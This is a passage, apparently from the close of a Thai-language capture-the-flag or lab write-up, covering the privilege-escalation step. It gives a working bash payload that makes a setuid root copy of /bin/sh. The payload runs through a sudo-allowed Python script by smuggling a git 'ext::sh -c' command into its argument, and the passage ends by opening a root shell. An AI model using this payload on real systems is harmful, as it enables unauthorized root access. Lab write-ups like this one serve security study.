

จากตัวอย่างจะเห็นว่าเราสามารถใช้คำสั่ง touch สำหรับสร้างไฟล์ pwned บน /tmp ได้ 

## Privilege Escalation 

ต่อไปเราจะทำการสร้าง shell เพิ่อยกระดับสิทธิเป็น root โดยให้เราใร้าง Payload สำหรับรัน /bin/sh ในสิทธิ  root


```bash
echo -e '#!/bin/bash\n\ncp /bin/sh /tmp/ice\nchown root:root /tmp/ice\nchmod 6777 /tmp/ice' 

echo -e '#!/bin/bash\n\ncp /bin/sh /tmp/ice\nchown root:root /tmp/ice\nchmod 6777 /tmp/ice' > /dev/shm/ice.sh 

chmod +x /dev/shm/ice.sh

### RUN PAYLOAD 
sudo python3 /opt/internal_apps/clone_changes/clone_prod_change.py 'ext::sh -c /dev/shm/ice.sh'

/tmp/ice -p 

```

# PWNED 